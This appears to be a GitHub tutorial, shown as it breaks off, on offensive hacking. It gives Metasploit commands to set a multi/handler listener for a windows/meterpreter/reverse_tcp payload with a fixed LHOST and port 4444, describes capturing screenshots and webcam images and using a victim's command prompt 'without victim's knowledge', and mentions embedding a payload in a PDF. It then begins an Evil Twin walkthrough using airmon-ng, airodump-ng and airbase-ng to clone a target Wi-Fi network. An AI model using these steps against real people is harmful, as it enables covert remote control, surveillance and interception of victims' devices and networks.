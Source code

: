 
•	To start Metasploit, using msfconsole
 
						![image](https://user-images.githubusercontent.com/88451628/172545859-4ba53090-5af2-4377-91da-541c544d8956.png)
Connection:
We now need to set up a listener on the port we determined within the executable. We do this by launching Metasploit using the command msfconsole on the Kali Linux terminal.
The screenshot below shows what commands to issue within Metasploit. First, we’ll tell Metasploit to use the generic payload handler “multi/handler” using the command ```use multi/handler```. We will then set the payload to match the one set within the executable using the command ```set payload windows/meterpreter/reverse_tcp```. We will then set the LHOST and LPORT this way — ```set LHOST 192.168.195.72``` and set ```LPORT 4444```. Once done, type ```run``` or ```exploit```and press Enter.
The screenshot below displays the output. The reverse TCP handler should begin waiting for a connection.




•	Setting up meterpreter session to connect to victim and exploit the device. 
 
						![image](https://user-images.githubusercontent.com/88451628/172545826-b9591049-c938-4ccc-b431-5265455375a2.png)
•	Using command prompt of windows in Attacker device without users knowledge
 
						![image](https://user-images.githubusercontent.com/88451628/172545770-ea0958a7-179e-4fbb-85ed-8deda498f564.png)

•	Taking a screenshot and websnap of windows without victim’s knowledge 
 
						![image](https://user-images.githubusercontent.com/88451628/172545748-a23311a9-e15e-4032-b219-9e02827f8eb1.png)
•	Creating a payload embedded within a pdf 
  
						![image](https://user-images.githubusercontent.com/88451628/172545716-346b6fc2-b02b-4e66-9b5a-1405c8353b21.png)
•	Checking the pdf created
 
						![image](https://user-images.githubusercontent.com/88451628/172545693-ce138e8e-1de0-4fa2-b99c-dad5d3f673d1.png)
Evil Twin Attack
Step 1: Enable Monitor Mode on Wireless Interface
The first step in this tutorial is to enable Monitor mode on our wireless interface wlan0 (or whatever interface you are using). This can be accomplished by executing the airmon-ng start wlan0 command.
 
						![image](https://user-images.githubusercontent.com/88451628/172545650-61f9aa57-7a77-4ea4-8924-64afc12677a2.png)
Step 2: Locate the Target Wireless Network Using Airodump-ng: The second step is to use airodump-ng to list out currently running wireless networks in our vicinity and locate your home Wi-Fi network we would like to clone. If your objective is to just create a fake AP, then you can skip this step. Execute the airodump-ng wlan0mon command. Wait a while until you see your wireless network you want to clone appear in the list. When you find it, press [ctrl+c] and leave the terminal open.
 
						![image](https://user-images.githubusercontent.com/88451628/172545622-eced80fb-839f-47c2-aa57-934526ef1757.png)

Step 3: Create an Evil Twin or Fake AP Using Airbase-ng
Now that we have the information we need, we can create an Evil Twin using airbase-ng. Obviously, you will be using the network name of the network you want to clone. Or, if you are just creating a Fake AP, it can be any network name you want, such as “Anonymous,” “Free Wi-Fi,” “You Suck,” and so on. My real network is running on channel 11.
 